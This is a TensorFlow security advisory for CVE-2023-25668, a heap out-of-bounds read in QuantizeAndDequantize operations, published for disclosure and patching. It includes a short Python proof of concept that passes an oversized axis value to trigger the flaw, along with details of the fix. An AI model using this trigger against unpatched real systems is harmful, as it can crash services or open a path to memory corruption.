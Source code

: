 ## TFSA-2023-172: A heap out-of-buffer read vulnerability in the QuantizeAndDequantize operation

### CVE Number
CVE-2023-25668

### Impact
Attackers using Tensorflow can exploit the vulnerability. They can access heap memory which is not in the control of user, leading to a crash or RCE.
When axis is larger than the dim of input, c->Dim(input,axis) goes out of bound.
Same problem occurs in the QuantizeAndDequantizeV2/V3/V4/V4Grad operations too.
```python
import tensorflow as tf
@tf.function
def test():
    tf.raw_ops.QuantizeAndDequantizeV2(input=[2.5],
    								   input_min=[1.0],
    								   input_max=[10.0],
    								   signed_input=True,
    								   num_bits=1,
    								   range_given=True,
    								   round_mode='HALF_TO_EVEN',
    								   narrow_range=True,
    								   axis=0x7fffffff)
test()
```



### Patches
We have patched the issue in GitHub commit [7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb](https://github.com/tensorflow/tensorflow/commit/7b174a0f2e40ff3f3aa957aecddfd5aaae35eccb).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.




